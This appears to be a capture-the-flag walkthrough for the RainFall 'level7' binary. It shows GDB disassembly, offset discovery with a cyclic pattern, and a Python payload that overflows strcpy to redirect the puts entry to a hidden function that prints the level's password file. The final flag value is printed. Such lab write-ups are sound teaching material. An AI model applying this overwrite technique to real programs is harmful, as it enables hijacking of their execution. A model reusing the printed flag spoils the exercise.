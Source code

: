 # level7 Exploit

### Steps

### Step 1: Decompile the Binary

Use GDB to disassemble the `level7` binary and understand its functionality:

```bash
level7@RainFall:~$ gdb level7
(gdb) disassemble main
(gdb) disassemble m
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

### Step 2: Analyze Available Functions

- The main function (`main`) executes:
  ```c
  __stream = fopen("/home/user/level8/.pass", "r");
  fgets(c, 68, __stream);
  ```
  This stores the flag in the variable `c`.

- The `c` variable is printed in the `m` function, which is never called:
  ```c
  void m(void *param_1, int param_2, char *param_3, int param_4, int param_5) {
      time_t param2;
      param2 = time(NULL);
      printf("%s - %d\n", c, param2);
  }
  ```

The goal is to call the `m` function after `fgets` reads the flag.

### Step 3: Find Function Addresses

Use GDB to find the addresses of the functions:

```bash
level7@RainFall:~$ gdb level7
(gdb) info functions
```

Addresses found:
- Address of the `m` function: `0x080484f4`
- Address of the `puts` function: `0x08049928`

### Step 4: Determine Offset

Run the following to determine at which position the overflow occurs:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Aa8Aa9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Aa8Aa9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
```

You should see something like:

```gdb
eax            0x37614136	929120566
ecx            0x0	0
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff63c	0xbffff63c
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0xb7eb8aa8	0xb7eb8aa8
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

Use the [Wiremask offset calculator](https://wiremask.eu/tools/buffer-overflow-pattern-offset/) to find that `0x37614136` corresponds to an offset of 20.

### Step 5: Construct the Exploit

With the overflow of the first `strcpy`, we can change `b[1]` to have the address of the `puts` function.

**Addresses:**
- `m`: `0x080484f4` -> `\xf4\x84\x04\x08`
- `puts`: `0x08049928` -> `\x28\x99\x04\x08`

Using Python to construct the payload:

```bash
$(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

### Step 6: Running the Exploit

Execute the exploit:

```bash
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

### Step 7: Result

You should see the output of the `m` function, which prints the contents of the `c` variable, the flag:

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
